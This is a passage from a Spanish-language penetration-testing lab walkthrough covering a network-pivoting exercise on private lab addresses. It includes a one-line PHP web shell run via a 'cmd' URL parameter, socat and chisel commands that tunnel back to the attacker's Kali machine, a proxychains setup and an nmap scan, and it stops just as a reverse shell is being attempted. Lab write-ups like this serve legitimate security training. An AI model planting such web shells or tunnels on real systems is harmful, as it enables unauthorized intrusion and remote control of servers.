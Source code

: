 Subimos un archivo PHP malicioso:

```php
<?php
    system($_GET['cmd']);
?>
```
<sub>[Captura de la subida del archivo]</sub>

Probamos ejecutando un comando `id`:
```text
http://20.20.20.3/uploads/cmd.php?cmd=id
```
<sub>[Captura de pantalla]</sub>

---

## Fase 6: Pivoting a través de `socat` para conexión inversa

Para conectar `20.20.20.3` con nuestra máquina Kali a través de múltiples saltos:

1. **Configuración en `10.10.10.2/20.20.20.2`**:
   ```bash
   ./socat tcp-l:3001,fork,reuseaddr tcp:10.10.10.1:1234
   ```
   <sub>[Captura de configuración]</sub>

2. **Configuración en `20.20.20.3/30.30.30.2`**:
   ```bash
   ./chisel client 20.20.20.2:3001 R:1081:socks
   ```

3. **Configuración en `/etc/proxychains4.conf`**:
   ```text
   socks5 127.0.0.1 1081
   ```

---

## Fase 7: Enumeración en 30.30.30.3

Repetimos el escaneo de puertos, ahora apuntando a `30.30.30.3`, el host detectado en la subred `30.30.30.0/24`.

```bash
proxychains nmap -sCV --top-ports 100 -Pn -sT 30.30.30.3 -oN escaneo_30.txt 2>&1 | grep -vE 'timeout|OK'
```
<sub>[Captura del escaneo]</sub>

---

## Fase 8: Explotación en el servidor web de 30.30.30.3

1. **Subida de archivo PHP malicioso en 30.30.30.3**:
   - Intentamos acceder a `uploads/cmd.php` y ejecutamos comandos remotos.
   - Probamos con una *reverse shell* en el navegador:
